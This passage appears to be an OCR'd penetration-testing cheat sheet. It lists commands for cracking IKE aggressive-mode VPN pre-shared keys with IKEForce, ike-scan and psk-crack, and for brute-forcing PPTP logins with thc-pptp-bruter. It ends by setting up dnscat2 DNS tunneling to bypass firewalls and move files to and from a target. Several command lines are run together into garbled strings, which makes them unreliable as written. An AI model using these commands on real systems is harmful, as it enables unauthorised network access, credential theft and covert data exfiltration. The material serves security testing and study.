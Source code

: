 ./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1

ike-scanike-scan TARGET-IPike-scan -A TARGET-IPike-scan -A TARGET-IP --id=myid -P TARGET-IP-key

#### **IKE Aggressive Mode PSK Cracking**

1. Identify VPN Servers
2. Enumerate with IKEForce to obtain the group ID
3. Use ike-scan to capture the PSK hash from the IKE endpoint
4. Use psk-crack to crack the hash

##### **Step 1: Idenitfy IKE Servers**

./udp-protocol-scanner.pl -p ike SUBNET/24

##### **Step 2: Enumerate group name with IKEForce**

./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic

##### **Step 3: Use ike-scan to capture the PSK hash**

ike-scan –M –A –n example_group -P hash-file.txt TARGET-IP

##### **Step 4: Use psk-crack to crack the PSK hash**

psk-crack hash-file.txt
Some more advanced psk-crack options below:

pskcrackpsk-crack -b 5 TARGET-IPkeypsk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134keypsk-crack -d /path/to/dictionary-file TARGET-IP-key

#### **PPTP Hacking**

Identifying PPTP, it listens on TCP: 1723

##### **NMAP PPTP Fingerprint:**

nmap –Pn -sV -p 1723 TARGET(S)

##### **PPTP Dictionary Attack**

thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst

### DNS Tunneling

Tunneling data over DNS to bypass firewalls.

dnscat2 supports “download” and “upload” commands for getting files (data and programs) to and from the target machine.

#### **Attacking Machine**

Installtion:

apt-get updateapt-get -y install ruby-dev git make g++gem install bundlergit clone https://github.com/iagox86/dnscat2.gitcd dnscat2/serverbundle install

Run dnscat2:
